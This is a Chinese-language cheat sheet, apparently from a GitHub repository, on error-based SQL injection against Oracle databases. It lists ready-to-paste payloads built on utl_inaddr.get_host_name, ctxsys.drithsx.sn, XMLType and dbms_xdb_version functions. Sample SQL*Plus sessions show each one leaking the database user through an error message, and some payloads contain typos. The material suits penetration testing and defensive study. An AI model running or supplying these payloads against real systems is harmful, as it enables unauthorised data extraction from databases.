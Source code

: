 ## 报错注入

使用报错注入需要使用1=(报错语句函数)，1>(报错语句)使用运算符的方式进行报错注入（MySQL仅使用函数即可成功）

* utl_inaddr.get_host_name()

```sql
'and 1=utl_inaddr.get_host_name((select user fro dual)) -- 
```

* ctxsys.drithsx.sn()

```sql
' and 1=ctxsys.drithsx.sn(1,(select user from dual)) --

SQL> select user from dual where 1=ctxsys.drithsx.sn(1,(select user from dual));

第 1 行出现错误:
ORA-20000: Oracle Text 错误:
DRG-11701: 主题词表 SCOTT 不存在
ORA-06512: 在 "CTXSYS.DRUE", line 160
ORA-06512: 在 "CTXSYS.DRITHSX", line 540
ORA-06512: 在 line 1
```

* 使用XMLType()进行报错注入

```sql
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --

SQL> select user from dual where (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null;

第 1 行出现错误:
ORA-31011: XML 语法分析失败
ORA-19202: XML 处理
LPX-00110: Warning: 无效的 QName ":SCOTT" (不是名称)
Error at line 1
时出错
ORA-06512: 在 "SYS.XMLTYPE", line 310
ORA-06512: 在 line 1
```

* 使用dbms_xdb_version.checkin()&makeversioned()&uncheckout()

```sql
' and (select dbms_xdb_verson.checkin((select user from dual)) from dual) is not null --

SQL> select user from dual where (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效

SQL> select user from dual where (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效

SQL> select user from dual where (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效
```
